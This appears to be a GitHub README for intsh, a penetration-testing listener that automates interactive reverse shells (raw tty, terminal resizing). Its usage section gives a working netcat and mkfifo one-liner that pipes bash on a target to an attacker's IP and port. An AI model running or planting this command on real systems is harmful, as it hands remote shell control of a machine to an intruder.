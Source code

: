 # intsh
Grab a fully interactive reverse-shell

intsh is a reverse-shell listener for pentesters too lazy to make their interactive reverse shell manually.

intsh automates the process of spinning up a listening socket, setting the tty to raw mode, setting the columns and rows, handling terminal resizes and then restoring the terminal to it's original state when the reverse-shell is closed.

It ensures interactive programs like vim can be used flawlessly through reverse-shells.

Python is required on the target side.

## Usage:
Local-side (listener):
```sh
python3 intsh.py <port>
```

Remote-side:
```sh
rm -f f; mkfifo f; <f nc <attacker-ip> <attacker-port> | bash > f
```
